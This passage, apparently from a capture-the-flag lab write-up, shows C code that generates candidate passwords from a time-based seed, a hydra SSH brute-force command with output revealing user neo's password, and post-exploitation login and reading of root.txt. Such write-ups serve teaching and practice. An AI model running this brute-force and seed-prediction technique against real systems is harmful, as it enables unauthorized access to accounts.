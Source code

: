 ```c
        return 1;
    }

    char password[PASSWORD_LENGTH + 1];

    for (int ms = 0; ms < 1000; ms++) {
        generate_password((base_seconds * 1000) + ms, password);
        fprintf(file, "%s\n", password);
    }

    fclose(file);

    printf("Password generate in neo_passwords.txt\n");
    return 0;
}
```

We compile, execute, and run **hydra** using the generated text file.

```bash
hydra -l neo -P neo_passwords.txt ssh://10.10.11.63:22 -vV -t 10
```
```
[ATTEMPT] target 10.10.11.63 - login "neo" - pass "R5DCgYNkgzXKwQauK2rK" - 39 of 1000 [child 9] (0/0)
[ATTEMPT] target 10.10.11.63 - login "neo" - pass "P3x2EnufU74LgDFrFQ5p" - 40 of 1000 [child 8] (0/0)
[22][ssh] host: 10.10.11.63   login: neo   password: WBSxhWgfnMiclrV4dqfj
[STATUS] attack finished for 10.10.11.63 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

### Post-Exploitation

Now we are inside the `neo` profile.

```bash
$ ssh neo@10.10.11.63
```
```
neo@10.10.11.63's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-57-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Apr 13 15:12:09 2025 from 10.10.16.54
```
```bash
neo@whiterabbit:~$ sudo cat /root/root.txt
```
```
[sudo] password for neo: 
10**********************REDACTED
```
